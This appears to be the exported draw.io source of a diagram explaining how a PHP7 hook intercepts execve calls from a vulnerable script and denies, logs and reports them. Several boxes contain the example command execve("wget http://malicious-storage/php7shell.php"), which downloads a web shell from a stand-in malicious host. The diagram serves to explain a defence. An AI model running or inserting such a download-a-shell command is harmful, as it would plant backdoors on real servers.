

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1438" dy="454" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="826" pageHeight="1169" background="#ffffff" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="6ff14243f4e5b3a8-2" value="&lt;font style=&quot;font-size: 33px&quot;&gt;?&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;overflow=hidden;rounded=1;" vertex="1" parent="1">
      <mxGeometry x="148" y="220" width="35" height="50" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-4" value="" style="shape=mxgraph.bpmn.user_task;html=1;rounded=1;strokeWidth=1;align=left;plain-red" vertex="1" parent="1">
      <mxGeometry x="110" y="200" width="110" height="110" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-5" value="BLACKHAT" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;overflow=hidden;rounded=1;plain-gray" vertex="1" parent="1">
      <mxGeometry x="131" y="270" width="70" height="40" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-6" value="" style="endArrow=classic;html=1;entryX=0.5;entryY=0;exitX=0.5;exitY=1;" edge="1" parent="1" source="6ff14243f4e5b3a8-5" target="6ff14243f4e5b3a8-7">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="140" y="380" as="sourcePoint" />
        <mxPoint x="190" y="330" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-8" value="&lt;font color=&quot;#ff0000&quot;&gt;DOES&lt;/font&gt;" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#ffffff;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-6">
      <mxGeometry x="-0.0222" y="2" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-7" value="HTTP REQUEST WITH &lt;font color=&quot;#ff0000&quot;&gt;REMOTE COMMAND EXECUTION MALICIOUS PAYLOAD&lt;/font&gt;" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-orange" vertex="1" parent="1">
      <mxGeometry x="101" y="400" width="130" height="100" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-9" value="TO" style="endArrow=classic;html=1;exitX=1;exitY=0.5;entryX=0;entryY=0.5;" edge="1" parent="1" source="6ff14243f4e5b3a8-7" target="6ff14243f4e5b3a8-10">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="300" y="450" as="sourcePoint" />
        <mxPoint x="310" y="430" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-10" value="WEBSERVER" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-blue" vertex="1" parent="1">
      <mxGeometry x="310" y="420" width="100" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-11" value="" style="endArrow=classic;startArrow=classic;html=1;entryX=0.5;entryY=1;exitX=0.5;exitY=0;" edge="1" parent="1" source="6ff14243f4e5b3a8-12" target="6ff14243f4e5b3a8-10">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="330" y="510" as="sourcePoint" />
        <mxPoint x="380" y="460" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-13" value="USES" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#ffffff;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-11">
      <mxGeometry x="0.2" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-12" value="&amp;nbsp;PHP7 ENGINE" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-blue" vertex="1" parent="1">
      <mxGeometry x="295" y="550" width="130" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-14" value="APPLICATION THREAD" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-blue" vertex="1" parent="1">
      <mxGeometry x="295" y="700" width="130" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-15" value="" style="endArrow=classic;startArrow=classic;html=1;entryX=0.5;entryY=1;exitX=0.5;exitY=0;" edge="1" parent="1">
      <mxGeometry x="359" y="610" width="50" height="50" as="geometry">
        <mxPoint x="359" y="700" as="sourcePoint" />
        <mxPoint x="359" y="610" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-16" value="PROCESS" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#ffffff;direction=south;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-15">
      <mxGeometry x="0.2" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-18" value="&lt;div&gt;&lt;font color=&quot;#ff0000&quot;&gt;VULNERABLE.PHP &lt;/font&gt;CONTAINS:&lt;/div&gt;&lt;div style=&quot;color: rgb(255 , 0 , 0)&quot;&gt;&lt;font color=&quot;#ff0000&quot;&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;&lt;div style=&quot;color: rgb(255 , 0 , 0)&quot;&gt;&lt;font color=&quot;#ff0000&quot;&gt;&amp;lt;?php&lt;/font&gt;&lt;/div&gt;&lt;font color=&quot;#cc6600&quot;&gt;execve&lt;/font&gt;(&quot;wget http://malicious-storage/&lt;font color=&quot;#cc6600&quot;&gt;php7shell&lt;/font&gt;.php&quot;);" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-red" vertex="1" parent="1">
      <mxGeometry x="267" y="830" width="187" height="100" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-19" value="&lt;font color=&quot;#66cc00&quot;&gt;php_secure_execve&lt;/font&gt;(&lt;span&gt;&quot;wget http://malicious-storage/&lt;/span&gt;&lt;font color=&quot;#ff8000&quot;&gt;php7shell&lt;/font&gt;&lt;span&gt;.php&quot;)&lt;/span&gt;" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-green" vertex="1" parent="1">
      <mxGeometry x="-90" y="850" width="190" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-21" value="Is &quot;&lt;font color=&quot;#ff0000&quot;&gt;VULNERABLE.PHP&lt;/font&gt;&quot; allowed to execute &quot;&lt;font color=&quot;#ff8000&quot;&gt;execve&lt;/font&gt;&quot; ?" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-green" vertex="1" parent="1">
      <mxGeometry x="-90" y="710" width="190" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-24" value="&lt;font color=&quot;#ff0000&quot;&gt;execve&lt;/font&gt;(&quot;&lt;span&gt;wget http://malicious-storage/&lt;/span&gt;&lt;font color=&quot;#ff8000&quot;&gt;php7shell&lt;/font&gt;&lt;span&gt;.php&quot;)&lt;/span&gt;" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-red" vertex="1" parent="1">
      <mxGeometry x="-175" y="550" width="170" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-26" value="- log issue&lt;div&gt;- deny execve execution&lt;/div&gt;&lt;div&gt;- advise issue&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;rounded=1;strokeWidth=1;align=left;plain-green" vertex="1" parent="1">
      <mxGeometry x="14" y="550" width="172" height="60" as="geometry" />
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-29" value="" style="endArrow=classic;html=1;entryX=0.5;entryY=0;exitX=0.5;exitY=1;" edge="1" parent="1" source="6ff14243f4e5b3a8-14" target="6ff14243f4e5b3a8-18">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-140" y="520" as="sourcePoint" />
        <mxPoint x="-90" y="470" as="targetPoint" />
        <Array as="points" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-30" value="PRETENDS TO EXECUTE&lt;div&gt;&amp;nbsp;&lt;font color=&quot;#ff0000&quot;&gt;VULNERABLE.PHP&lt;/font&gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;WITH PAYLOAD AS INPUT&lt;/div&gt;" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#FF9933;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-29">
      <mxGeometry x="-0.0847" y="3" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-31" value="" style="endArrow=classic;html=1;exitX=0.005;exitY=0.5;exitPerimeter=0;entryX=1;entryY=0.5;" edge="1" parent="1" source="6ff14243f4e5b3a8-18" target="6ff14243f4e5b3a8-19">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="190" y="900" as="sourcePoint" />
        <mxPoint x="240" y="850" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-38" value="&lt;font color=&quot;#66cc00&quot;&gt;EXECVE IS HOOKED&lt;/font&gt;" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#ffffff;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-31">
      <mxGeometry x="-0.0569" y="1" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-32" value="" style="endArrow=classic;html=1;entryX=0.5;entryY=1;exitX=0.5;exitY=0;" edge="1" parent="1" source="6ff14243f4e5b3a8-19" target="6ff14243f4e5b3a8-21">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="30" y="830" as="sourcePoint" />
        <mxPoint x="80" y="780" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-33" value="" style="endArrow=classic;html=1;entryX=0.5;entryY=1;exitX=0.75;exitY=0;" edge="1" parent="1" source="6ff14243f4e5b3a8-21" target="6ff14243f4e5b3a8-26">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="70" y="700" as="sourcePoint" />
        <mxPoint x="120" y="650" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-35" value="&lt;font color=&quot;#66cc00&quot;&gt;NO (GOOD CONFIGURATION)&lt;/font&gt;" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#ffffff;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-33">
      <mxGeometry x="-0.1762" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-34" value="" style="endArrow=classic;html=1;entryX=0.5;entryY=1;exitX=0.25;exitY=0;" edge="1" parent="1" source="6ff14243f4e5b3a8-21" target="6ff14243f4e5b3a8-24">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-50" y="670" as="sourcePoint" />
        <mxPoint y="620" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6ff14243f4e5b3a8-37" value="&lt;font color=&quot;#ff0000&quot;&gt;YES&lt;/font&gt;" style="text;html=1;resizable=0;points=[];align=center;verticalAlign=middle;labelBackgroundColor=#ffffff;" vertex="1" connectable="0" parent="6ff14243f4e5b3a8-34">
      <mxGeometry x="-0.0298" y="2" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
  </root>
</mxGraphModel>